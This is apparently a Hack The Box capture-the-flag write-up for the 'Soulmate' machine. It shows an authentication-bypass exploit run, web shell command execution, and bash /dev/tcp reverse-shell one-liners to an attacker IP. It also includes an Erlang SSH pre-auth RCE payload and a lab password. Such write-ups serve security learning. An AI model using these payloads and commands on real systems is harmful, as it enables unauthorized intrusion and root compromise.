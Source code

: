 # HTB-Soulmate

### ReconA

- Added hostnames:
    
    ```bash
    echo "10.129.229.162 soulmate.htb ftp.soulmate.htb" | sudo tee -a /etc/hosts
    
    ```
    
- Ran service enumeration:
    
    ```bash
    nmap -sVC soulmate.htb
    
    ```
    
    Found ports:
    
    - `22/tcp` → OpenSSH
    - `80/tcp` → nginx (web server)

---

### 2. Foothold – Webshell

- Found vulnerable vhost: `ftp.soulmate.htb` (CVE-2025-31161).

```bash
[root@Hacking] /home/kali/soulmate/CVE-2025-31161 (main)
❯ python cve-2025-31161.py --target_host ftp.soulmate.htb --port 80 --target_user root --new_user hyh --password admin123
[+] Preparing Payloads
  [-] Warming up the target
  [-] Target is up and running
[+] Sending Account Create Request
  [!] User created successfully
[+] Exploit Complete you can now login with
   [*] Username: hyh
   [*] Password: admin123.
```

![image.png](assets/image.png)

Change password User ben and login to it

![image.png](image%201.png)

Open webprod file and the shell.php

![image.png](image%202.png)

- Verified execution:
    
    ```
    http://soulmate.htb/shell.php?cmd=id
    
    ```
    
    Output: `uid=33(www-data) gid=33(www-data)`
    
- Spawned reverse shell:
    
    ```bash
    rlwrap nc -lvnp 9001
    curl "http://soulmate.htb/shell.php?cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.81/9001 0>&1'"
    
    ```
    

---

### 3. Privilege Escalation → ben

- Inside foothold, discovered Erlang script:
    
    ```bash
    cat /usr/local/lib/erlang_login/start.escript
    
    ```
    
- Key findings in script:
    - Runs **SSH daemon** on `127.0.0.1:2222`.
    - Accepts both password and publickey.
    - Hardcoded creds:
        
        ```
        ben : HouseH0ldings998
        
        ```
        
        Root
        
        ## . Local Recon
        
        **Step:**
        
        Run service enumeration on the compromised host:
        
        ```bash
        ss -tuln
        
        ```
        
        **Finding:**
        
        - Found a local service listening on `127.0.0.1:2222`.
        - Banner check with `nc` shows:
            
            ```
            SSH-2.0-Erlang/5.2.9
            
            ```
            
        
        **Why it matters:**
        
        This isn’t a standard OpenSSH server. It’s an Erlang-based SSH daemon (part of Erlang/OTP).
        
        Non-standard implementations often contain exploitable bugs.
        
        ---
        
        ## 2. Vulnerability Identification
        
        **Step:**
        
        Look up known issues in Erlang SSH.
        
        **Finding:**
        
        - Vulnerable to **CVE-2025-3243** – a pre-authentication remote code execution bug in Erlang SSH.
        - Allows attackers to send crafted SSH channel requests before auth to trigger code execution.
        
        **Why it matters:**
        
        Because the daemon is running **as root**, any successful exploit = instant root shell.
        
        ---
        
        ## 3. Exploit – CVE-2025-3243.py
        
        **Step:**
        
        Use the exploit script `CVE-2025-3243.py`.
        
        - Adapted the PoC to send a **reverse shell payload**:
        
        ```python
        payload = f'os:cmd("bash -c \\"bash -i >& /dev/tcp/{lhost}/{lport} 0>&1\\"").'
        
        ```
        
        **Explanation:**
        
        - The Erlang function `os:cmd/1` runs system commands.
        - We injected a reverse shell command into the SSH request.
        - When processed, it spawns a connection back to our listener with **root privileges**.
        
        ---
        
        ## 4. Execution
        
        **Step 1 – Listener:**
        
        ```bash
        rlwrap nc -lvnp 5555
        
        ```
        
        **Step 2 – Run exploit:**
        
        ```bash
        python3 CVE-2025-3243.py -lh 10.10.14.81 -lp 5555 -rh 127.0.0.1 -rp 2222
        
        ```
        
        **Why it works:**
        
        - The script simulates an SSH negotiation.
        - Instead of a normal exchange, it injects the Erlang RCE payload inside a **channel request**.
        - The Erlang SSH daemon doesn’t validate properly → payload executes directly.
        
        ---
